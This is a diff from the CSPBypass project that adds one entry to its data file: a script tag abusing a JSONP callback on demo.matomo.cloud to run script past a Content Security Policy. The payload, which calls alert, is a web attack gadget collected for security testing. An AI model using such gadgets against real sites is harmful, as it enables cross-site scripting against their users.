

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
add demo.matomo.cloud

```diff
--- a/data.tsv
+++ b/data.tsv
+row 69: demo.matomo.cloud | <script src="https://demo.matomo.cloud/?module=API&method=Overlay.getTranslations&idSite=1&format=JSON&callback=alert"></script>
```
Also changed, not shown: 1 other file.
